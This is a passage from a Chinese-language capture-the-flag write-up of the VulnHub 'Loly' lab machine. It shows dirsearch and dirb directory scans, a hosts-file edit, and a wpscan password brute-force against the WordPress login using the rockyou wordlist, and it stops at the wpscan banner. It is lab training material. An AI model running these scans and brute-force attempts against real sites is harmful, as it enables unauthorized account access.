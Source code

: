 ### 目录扫描

#### dirsearch

```bash
$ dirsearch -u http://10.0.2.8 
Target: http://10.0.2.8/
[23:40:09] Starting: 
[23:40:31] 200 -    7KB - /wordpress/wp-login.php                           
[23:40:31] 200 -   28KB - /wordpress/
Task Completed
```

#### dirb

```bash
$ dirb http://10.0.2.8/                                 
URL_BASE: http://10.0.2.8/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
---- Scanning URL: http://10.0.2.8/ ----
==> DIRECTORY: http://10.0.2.8/wordpress/                                         
---- Entering directory: http://10.0.2.8/wordpress/ ----
+ http://10.0.2.8/wordpress/index.php (CODE:301|SIZE:0)    
==> DIRECTORY: http://10.0.2.8/wordpress/wp-admin/  
==> DIRECTORY: http://10.0.2.8/wordpress/wp-content/   
==> DIRECTORY: http://10.0.2.8/wordpress/wp-includes/    
+ http://10.0.2.8/wordpress/xmlrpc.php (CODE:405|SIZE:42)
```

看来是wordpress有漏洞了，kali自带的wpscan就是干这个的

![1](https://static.iihack.com/vulnhub/538/1.PNG)

访问页面发现需要绑定一下host

```bash
$ sudo nano /etc/hosts
```

![2](https://static.iihack.com/vulnhub/538/2.PNG)

再次访问[http://loly.lc/wordpress/](http://loly.lc/wordpress/)

![3](https://static.iihack.com/vulnhub/538/3.PNG)

获得用户名`loly` 

### wpscan

上wpscan碰碰运气了

```bash
$ wpscan --url http://loly.lc/wordpress/ -U loly -P /usr/share/wordlists/rockyou.txt    
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://loly.lc/wordpress/ [10.0.2.8]
```